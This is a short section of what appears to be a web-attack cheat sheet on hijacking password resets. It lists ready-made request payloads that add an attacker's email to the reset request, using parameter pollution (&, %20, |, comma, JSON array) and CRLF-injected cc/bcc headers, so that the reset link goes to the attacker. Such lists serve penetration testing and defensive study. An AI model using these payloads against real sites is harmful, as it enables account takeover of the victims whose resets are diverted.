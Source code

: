 ## **Password Reset By Manipulating Email Parameter**

Attackers can manipulate the password reset request by adding additional email parameters to divert the reset link.

* Add attacker email as second parameter using &

```php
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```

* Add attacker email as second parameter using %20

```php
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```

* Add attacker email as second parameter using |

```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```

* Add attacker email as second parameter using cc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

* Add attacker email as second parameter using bcc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```

* Add attacker email as second parameter using ,

```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```

* Add attacker email as second parameter in json array

```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
